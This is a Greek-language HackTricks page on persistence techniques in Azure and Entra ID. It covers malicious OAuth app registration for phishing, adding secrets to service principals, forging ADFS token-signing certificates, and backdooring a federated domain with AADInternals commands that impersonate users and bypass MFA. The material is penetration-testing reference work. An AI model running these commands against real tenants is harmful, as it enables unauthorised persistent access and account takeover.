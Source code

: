 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### OAuth Application

Από προεπιλογή, οποιοσδήποτε χρήστης μπορεί να εγγραφεί μια εφαρμογή στο Entra ID. Έτσι, μπορείτε να εγγραφείτε μια εφαρμογή (μόνο για τον στοχευμένο ενοικιαστή) που χρειάζεται υψηλές άδειες με τη συγκατάθεση του διαχειριστή (και να την εγκρίνετε αν είστε ο διαχειριστής) - όπως η αποστολή email εκ μέρους ενός χρήστη, η διαχείριση ρόλων κ.λπ. Αυτό θα μας επιτρέψει να **εκτελέσουμε επιθέσεις phishing** που θα ήταν πολύ **αποδοτικές** σε περίπτωση επιτυχίας.

Επιπλέον, θα μπορούσατε επίσης να αποδεχθείτε αυτή την εφαρμογή με τον χρήστη σας ως έναν τρόπο για να διατηρήσετε την πρόσβαση σε αυτήν.

### Applications and Service Principals

Με προνόμια Διαχειριστή Εφαρμογών, GA ή έναν προσαρμοσμένο ρόλο με άδειες microsoft.directory/applications/credentials/update, μπορούμε να προσθέσουμε διαπιστευτήρια (μυστικό ή πιστοποιητικό) σε μια υπάρχουσα εφαρμογή.

Είναι δυνατόν να **στοχεύσουμε μια εφαρμογή με υψηλές άδειες** ή **να προσθέσουμε μια νέα εφαρμογή** με υψηλές άδειες.

Ένας ενδιαφέρον ρόλος για να προστεθεί στην εφαρμογή θα ήταν ο **ρόλος διαχειριστή προνομιακής πιστοποίησης** καθώς επιτρέπει να **επαναφέρετε τον κωδικό πρόσβασης** των Παγκόσμιων Διαχειριστών.

Αυτή η τεχνική επιτρέπει επίσης να **παρακαμφθεί το MFA**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Για την αυθεντικοποίηση με βάση το πιστοποιητικό
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

Με **δικαιώματα DA** σε on-prem AD, είναι δυνατό να δημιουργήσουμε και να εισάγουμε **νέα πιστοποιητικά υπογραφής Token** και **πιστοποιητικά αποκρυπτογράφησης Token** που έχουν πολύ μεγάλη διάρκεια ισχύος. Αυτό θα μας επιτρέψει να **συνδεθούμε ως οποιοσδήποτε χρήστης** του οποίου το ImuutableID γνωρίζουμε.

**Εκτελέστε** την παρακάτω εντολή ως **DA στον ADFS server(s)** για να δημιουργήσετε νέα πιστοποιητικά (προεπιλεγμένος κωδικός 'AADInternals'), να τα προσθέσετε στο ADFS, να απενεργοποιήσετε την αυτόματη ανανέωση και να επανεκκινήσετε την υπηρεσία:
```bash
New-AADIntADFSSelfSignedCertificates
```
Στη συνέχεια, ενημερώστε τις πληροφορίες πιστοποίησης με το Azure AD:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Με δικαιώματα GA σε έναν ενοικιαστή, είναι δυνατόν να **προσθέσετε ένα νέο τομέα** (πρέπει να επαληθευτεί), να ρυθμίσετε τον τύπο αυθεντικοποίησής του σε Federated και να ρυθμίσετε τον τομέα να **εμπιστεύεται ένα συγκεκριμένο πιστοποιητικό** (any.sts στην παρακάτω εντολή) και εκδότη:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Αναφορές

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
